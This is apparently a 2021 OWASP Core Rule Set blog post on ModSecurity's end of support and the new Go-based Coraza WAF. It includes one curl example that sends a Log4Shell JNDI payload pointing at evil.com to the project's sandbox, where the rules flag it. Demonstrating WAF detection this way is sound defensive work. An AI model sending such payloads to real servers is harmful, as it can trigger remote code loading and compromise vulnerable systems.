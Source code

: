 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-22T13:23:02+01:00'
title: Talking about ModSecurity and the new Coraza WAF
url: /2021/12/22/talking-about-modsecurity-and-the-new-coraza-waf/
---
```



It's time to talk about the ModSecurity engine and to introduce you to Coraza, a new contender on the WAF front. Any rule set is nothing without a WAF engine to run it, so even if our project is focused on the rules, we need to look at the underlying engine(s) from time to time.

On August 26, 2021, Trustwave, the owner of ModSecurity, announced the end of Support for ModSecurity for 2024 in a [blog post](https://www.trustwave.com/en-us/resources/security-resources/software-updates/end-of-sale-and-trustwave-support-for-modsecurity-web-application-firewall/). The blog also states that Trustwave plans to “let the open-source community continue the project.”

During autumn, OWASP, our mother organization, reached out to Trustwave and offered to assume stewardship of the project and attract sponsors while honoring Trustwave’s existing commitments. Sadly, OWASP and Trustwave were not yet able to find a common path before the end of Trustwave’s end of life support in 2024. So Trustwave is winding down their commitment and we need to move on.

As the provider of the OWASP ModSecurity Core Rule Set, we are the biggest users of ModSecurity, but also one of the biggest experts on ModSecurity. Our CRS co-leader Dr. Christian Folini is the author of the 2nd edition of the quasi-official ModSecurity Handbook, and our project brings together a unique expertise of ModSecurity in very diverse setups. We have been examining the development of ModSecurity ever since it was taken over by Trustwave, we have seen lead developers join and leave the company, we have raised dozens of issues and we contributed with several pull requests.

Without going into too much detail, we think it is fair to say that ModSecurity failed to attract a community of active developers. CRS has grown from 3 to 12 active developers since it separated from Trustwave in 2016. Meanwhile, ModSecurity has not been able to keep up with the necessary resources to accommodate the growing CRS project and its users.

#### ModSecurity: a problem with two code bases

One problem is the ModSecurity code base. The traditional base is ModSecurity 2, a venerable Apache module, originally developed by Ivan Ristić. However ModSecurity 2 is heavily linked to Apache internals, which makes it hard to port it and makes it sensible to re-factor. There is the successor libModSecurity 3, a standalone engine built from scratch in C++ with a connector module to integrate it into NGINX. ModSecurity 3 was released as stable and production-ready in December 2017.

It's been four years, and CRS still uses ModSecurity 2 as its reference implementation. The main reason is ModSecurity 3 fails to pass all tests in our test suite. Trustwave dubbed ModSecurity 3 as a re-implementation with an equal feature set, which has not happened yet. Recently, we sent Trustwave a list a dozen implementation gaps and differences that break CRS rules and potentially open up an application to attacks.

But this is not the only problem. NGINX is also the only platform where a publicly available ModSecurity 3 connector module exists. So you can not run ModSecurity 3 on the traditional Apache and also not on the new hot cloud stuff. And the performance of ModSecurity 3 is much worse than the throughput of ModSecurity 2 on Apache (Yes, you heard this right: Once ModSecurity comes into play, Apache is way faster than NGINX).

So, we have a very old code base that is bound to Apache, and a newer codebase that is incomplete, less performant, and only runs on NGINX.

CRS has pondered the problem, but we came to the conclusion that we will rather use our knowledge and resources to write rules than working on an engine. That’s said, we will strive to become engine-neutral. (Which does not mean we are not supportive. The last few security problems in ModSecurity have all been discovered by CRS developers and shared with the ModSecurity developers before publication. And we have quite a few pull requests open on the ModSecurity GitHub on top.)

The only viable option for a ModSecurity fork would be a company or organization with deep pockets and the resources to clean up the codebases, closing the gaps and then maybe a vision of how to move forward. We expect about 4,000 hours of investment for both code bases.

So in our opinion, the situation looks rather bleak for ModSecurity and for those integrators who have invested in ModSecurity. We're facing a similar situation apparently. But we also think there is reason for hope. Let us explain!

First, ModSecurity’s SecLang engine is not overly important. There are already several commercial reimplementations of ModSecurity, and there is nothing preventing an open source alternative.

And second, the intelligence is in the rule set, not in the engine. Mike Shinn, CEO of Atomicorp, an old school vendor of ModSecurity rules, has put it this way recently: "The real magic of ModSecurity is always in the rules anyways." As an open source rules provider, we could not agree more.

So all we really need is an open source alternative to ModSecurity. And such a very interesting alternative has arrived now: Entering the [Coraza WAF](https://coraza.io).

#### The beauty of the new Coraza WAF

Coraza is an implementation of a SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the open source [Caddy web server](https://caddyserver.com/), but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

{{< figure src="images/2021/12/coraza-logo.png" caption="The new Coraza WAF with its pet \"Sancho\" on the right." >}}
To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our [earlier Log4J blog post](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).

```sh
curl -H "x-crs-paranoia-level: 4" \
  -H "x-format-output: txt-matched-rules" \
  -H "x-backend: coraza" \
  -H "x-crs-version: 3.4.0-dev-log4j" \
  -H ‘***User-Agent: ${jndi:ldap://evil.com}***’ \
  https://sandbox.coreruleset.org  
> 1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228  
> 932130 PL1 Remote Command Execution: Unix Shell Expression Found  
> 949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)  
> 980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0
```

#### **Conclusion**

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity 3 productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

- <https://coraza.io>
- <https://coraza.io/docs/tutorials/introduction/>
- <https://github.com/jptosso/coraza-waf>

We will keep you updated on new developments in this regard.  
  
*Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project*  
  
P.S. Juan Pablo Tosso asked CRS to come up with a name for his Coraza mascot. We settled on Sancho and he thought it was a great fit.
